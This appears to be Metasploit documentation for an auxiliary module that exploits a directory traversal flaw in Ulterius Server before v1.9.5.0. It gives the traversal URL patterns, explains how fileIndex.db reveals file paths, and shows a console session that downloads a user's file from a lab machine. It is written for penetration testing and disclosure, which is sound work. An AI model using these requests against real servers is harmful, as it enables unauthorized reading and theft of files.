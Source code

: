 ## Description

This module exploits a directory traversal vulnerability in [Ulterius Server < v1.9.5.0](https://github.com/Ulterius/server/releases). The directory traversal flaw occurs in Ulterius Server's `HttpServer.Process` function call. While processing file requests, the `HttpServer.Process` function does not validate that the requested file is within the web server's root directory or a subdirectory.

## Vulnerable Application

When requesting a file, a relative or absolute file path is needed so the appropriate request can be generated. Fortunately, Ulterius Server creates a file called `fileIndex.db`, which contains filenames and directories located on the server. By requesting `fileIndex.db` and parsing the retrieved data, absolute file paths can be retrieved for files hosted on the server. Using the information retrieved from parsing `fileIndex.db`, additional requests can be generated to download desired files.

As noted in the [EDB PoC](https://www.exploit-db.com/exploits/43141/), the `fileIndex.db` is usually located at:

`http://ulteriusURL:22006/.../fileIndex.db`

Note: 22006 was the default port after setting up the Ulterius Server.

After retrieving absolute paths for files, the files can be retrieved by sending requests of the form:

`http://ulteriusURL:22006/<DriveLetter>:/<path>/<to>/<file>`

Note: The [EDB PoC](https://www.exploit-db.com/exploits/43141/) used relative paths to download files but absolute paths can be used on Windows-platforms as well, because the `HttpServer.Process` function made use of the [Path.Combine](https://msdn.microsoft.com/en-us/library/fyy7a5kt(v=vs.110).aspx) function.

> If *path2* includes a root, *path2* is returned. 

## Options

### PATH

This option specifies the absolute or relative path of the file to download. (default: `/…/fileIndex.db`)

Note: If you are using relative paths, use three periods when traversing down a level in the directory structure. If absolute paths are used, make sure to include the drive letter.

## Verification Steps

- [ ] Install Ulterius Server < v1.9.5.0
- [ ] `./msfconsole`
- [ ] `use auxiliary/admin/http/ulterius_file_download`
- [ ] `set rhost <rhost>`
- [ ] `run`
- [ ] Verify loot contains file system paths from remote file system.
- [ ] `set path '<DriveLetter>:/<path>/<to>/<file>'`
- [ ] `run`
- [ ] Verify contents of file

## Scenarios

### Ulterius Server v1.8.0.0 on Windows 7 SP1 x64.

```
msf > use auxiliary/admin/http/ulterius_file_download
msf auxiliary(admin/http/ulterius_file_download) > set rhost 172.22.222.122
rhost => 172.22.222.122
msf auxiliary(admin/http/ulterius_file_download) > run

[*] Starting to parse fileIndex.db...
[*] Remote file paths saved in: filepath0
[*] Auxiliary module execution completed
msf auxiliary(admin/http/ulterius_file_download) > set path 'C:/users/pwnduser/desktop/tmp.txt'
path => C:/users/pwnduser/desktop/tmp.txt
msf auxiliary(admin/http/ulterius_file_download) > run

[*] C:/users/pwnduser/desktop/tmp.txt
[*] File contents saved: filepath1
[*] Auxiliary module execution completed
msf auxiliary(admin/http/ulterius_file_download) >
```
